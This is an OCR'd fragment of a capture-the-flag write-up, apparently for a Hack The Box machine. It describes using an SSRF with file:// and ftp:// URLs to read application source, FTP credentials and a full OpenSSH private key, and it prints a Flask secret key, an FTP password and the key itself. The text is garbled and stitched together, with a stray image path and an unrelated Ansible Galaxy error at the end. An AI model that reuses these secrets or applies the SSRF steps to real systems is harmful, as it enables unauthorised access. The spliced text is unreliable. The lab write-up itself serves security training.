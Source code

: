 ```
import dashboard_bp
app = Flask(__name__) app.secret_key = "7ASS7ADA8RF3FD7" app.config['SERVER_NAME'] = 'comprezzor.htb'
```

The top part of the file shows some more interesting files:
```txt
                 file:///app/code/blueprints/dashboard/dashboard.py
```
(user='ftp_admin', passwd='u3jai8y71s2')

# FTP files
Using the ftp files and the SSRF I was able to list out what was in the ftp server
```shell
              ftp://ftp_admin:u3jai8y71s2@ftp.local/
```
![[Pasted image 20240428181906.png]]
## Private Key
Using the command:
```
              ftp://ftp_admin:u3jai8y71s2@ftp.local/{private_key}

```
I was able to get the private key
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
```

[WARNING]: - file.tar was NOT installed successfully: Unknown error when attempting to call Galaxy at 'https://galaxy.ansible.com/api/':